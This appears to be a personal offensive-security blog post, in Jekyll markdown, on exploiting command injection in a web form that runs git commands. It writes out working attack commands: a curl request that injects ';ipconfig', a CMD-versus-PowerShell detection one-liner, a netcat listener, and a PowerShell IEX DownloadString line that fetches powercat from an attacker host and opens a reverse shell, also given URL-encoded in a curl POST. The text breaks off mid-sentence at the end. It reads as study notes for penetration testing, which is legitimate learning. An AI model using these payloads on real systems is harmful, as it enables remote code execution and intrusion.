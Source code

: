 ```yaml
---
layout: post
title: CMD Injection
titledate: 08/31/23
tags: ["infosec","offsec", "exploit", "web", "shell", "powershell"]
---
```


some applicagions may allow you to input queries or commands - in these instances we can try to add additional commands to them to see if they are properly filtered or strictly limited to what is allowed

In this example the web page allows you to enter a test command from the system command line for git, so we can grab the query in burp and then alter it to include our cmd

    $ curl -X POST --data 'cmd=git%3Bipconfig' http://192.168.50.50:8000/cmd

If we are targetting windows we can run a check to determine if the cmd executes in cmd or powershell

    $ (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

we may need to url encode the above command

<h4>Powercat</h4>

We can use Powercat to create a reverse shell

    $ /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1

first we serve the script with python
    
    $ python3 -m http.server 80

next we start our netcat listener

    $ nc -nlvp 443

finally we'll use curl to send a url encoded powershell reverse shell cmd to the target with our ip

```powershell
EX (New-Object System.Net.Webclient).DownloadString("http://192.168.1.1/powercat.ps1");powercat -c 192.168.1.1 -p 443 -e powershell
```
   
    $ curl -X POST --data 'cmd=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.1.1%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.1.1%20-p%20443%20-e%20powershell' http://192.168.50.50:8000/cmd

<h4>Linux Shell</h4>

using linux our attack might look like the following, where we use the bash one liner to create a tcp shell to our machine on 443

![_config.yml]({{ site.baseurl }}/images/web/bash_cmd_injection.png)

<h3>PAY ATTENTION TO QUOTES</h3>

with cmd injection in fields, if running some kind of language processing on the os like python etc 

